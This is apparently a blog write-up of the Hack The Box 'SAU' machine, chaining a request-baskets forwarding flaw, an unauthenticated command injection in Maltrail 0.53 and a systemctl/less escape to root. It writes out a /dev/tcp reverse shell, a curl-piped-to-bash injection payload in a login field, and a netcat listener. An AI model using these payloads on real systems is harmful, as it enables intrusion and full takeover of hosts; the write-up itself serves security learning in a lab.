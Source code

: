 ```yaml
---
layout: post
title: HTB SAU Writeup  
subtitle: Easy Linux Box
thumbnail-img: /assets/img/sau/sau.png
tags: [HTB]
---
```


| Name | SAU |
| :------ |:--- |
| OS | Linux |
| DIFFICULTY | Easy |


# SAU
While playing SAU from Hack The Box, I encountered a host with open ports and filtered access points, leading me to a web service on port 55555. A meticulous reconnaissance revealed a basket collection application powered by `request-baskets`. Exploiting a cross-site request forgery vulnerability, I gained access to an internal site running Maltrail. A subsequent dive into version-specific vulnerabilities exposed an unauthenticated remote code execution flaw in Maltrail 0.53. Successful exploitation provided a foothold to escalate privileges, exploiting an intriguing interaction with `systemctl` that eventually led to root access. This CTF machine showcased a blend of web application security, version-specific exploits, and clever privilege escalation techniques.

## Reconnaissance
I initiated my reconnaissance by conducting a port scan using `nmap`. I executed two scans: the first quickly enumerated open ports, while the second utilized `nse` scripts provided by `nmap`.

```
nmap -p- --min-rate 1000 -oN allPorts.nmap 10.10.11.224                      
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown


nmap -p 22,80,8338,55555 -sVC -oN scriptScan.nmap 10.10.11.224
PORT      STATE    SERVICE VERSION                                                            
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                                                                                                                     
| ssh-hostkey:                                                                                
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)                                
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)                               
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)                             
80/tcp    filtered http                                                                       
8338/tcp  filtered unknown                                                    
55555/tcp open     unknown                                                                               
| fingerprint-strings:                                                                        
|   FourOhFourRequest:                                                                                   
|     HTTP/1.0 400 Bad Request                                                                                                                                                               
|     Content-Type: text/plain; charset=utf-8                                                                                                                                                                     
|     X-Content-Type-Options: nosniff                                                                    
|     Date: Mon, 08 Jan 2024 01:09:20 GMT                                                                             
|     Content-Length: 75                                                                                              
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$                                         
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:                                                                                                                
|     HTTP/1.1 400 Bad Request                                                                                        
|     Content-Type: text/plain; charset=utf-8                                                                         
|     Connection: close                                                                                                                                                                                                                     
|     Request                                                                                                         
|   GetRequest:                                            
|     HTTP/1.0 302 Found                                   
|     Content-Type: text/html; charset=utf-8                                                                          
|     Location: /web                                       
|     Date: Mon, 08 Jan 2024 01:08:53 GMT                                                                             
|     Content-Length: 27                                   
|     href="/web">Found</a>.                               
|   HTTPOptions:                                           
|     HTTP/1.0 200 OK                                      
|     Allow: GET, OPTIONS                                  
|     Date: Mon, 08 Jan 2024 
```

The output revealed that ports 22 and 55555 were open, while ports 80 and 8338 were filtered. My assumption is that a host firewall permits access only internally. Port 22 seems to be for SSH, while port 55555 appears to host a website.

Given the lower attack surface of SSH compared to a web server, I decided to focus my enumeration on port 55555.

## HTTP TCP/55555

Upon visiting the site, I was redirected to `/web`, revealing a basket collection application.
![sau](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/sau/1.png)

The footer indicated that the site was powered by `request-baskets`. Further investigation on GitHub explained its functionality - creating baskets to capture and inspect HTTP requests via UI or API.

A version check revealed the software version 1.2.1, and a quick Google search unveiled a [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) vulnerability, a cross-site request forgery issue.

Exploiting this vulnerability was straightforward. By creating a new basket and configuring the forward URL to `localhost:80`, we gained access to the internal site running on port 80. When a request was made to the basket it can be configured to forward that request some place else, like its internally running website.

A test on a blank basket returned nothing, while applying the forward URL yielded a response related to a project called Maltrail.

![sau](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/sau/2.png)
![sau](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/sau/3.png)

Maltrail, found on [GitHub](https://github.com/stamparm/maltrail/), is designed to detect malicious traffic. The response contained version information:
```
<div class="bottom noselect">Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
```

Further research on Maltrail version 0.53 uncovered an unauthenticated remote code execution (RCE) exploit detailed on [Huntr](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/). 

To exploit this, I modified the forward URL to `http://127.0.0.1/login` and hosted a reverse shell on a Python3 web server. Executing the payload successfully granted code execution on the internal site.

![sau](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/sau/4.png)

```
sudo python3 -m http.server 80
nc -lvnp 9001
```

```
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.4/9001 0>&1
```

```
curl http://10.10.11.224:55555/zon --data 'username=;`curl 10.10.14.4:80/shell.sh|bash`'
```

This will make a request to the basket, the basket will then forward the request to the internal webserver running maltrail giving code execution. If everything went right there will be a request to the python3 server getting the shell script, then a connection back on netcat.
![sau](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/sau/5.png)

## Privilege Escalation
The obtained shell had limited capabilities, so I performed the classic Python3 upgrade: `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

Exploring my access, I discovered that I had sudo privileges to run `systemctl` on `trail.service`.
```
puma@sau:/opt/maltrail$ sudo -l

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$ 
```

Executing this command led to an interesting situation where it prompted me to press enter, there are some scenarios where running `!/bin/bash` drops into a root console. Surprisingly, it worked!
```
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@sau:/opt/maltrail# id
id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/opt/maltrail# 
```

This trick also works on a full tty shell if the window is small enough. The issue stems from the LESSSECURE environment variable not being set to 1, identified as CVE-2023–26604 with systemd 245. A patch prevents commands from being executed if the effective UID is different from the UID.
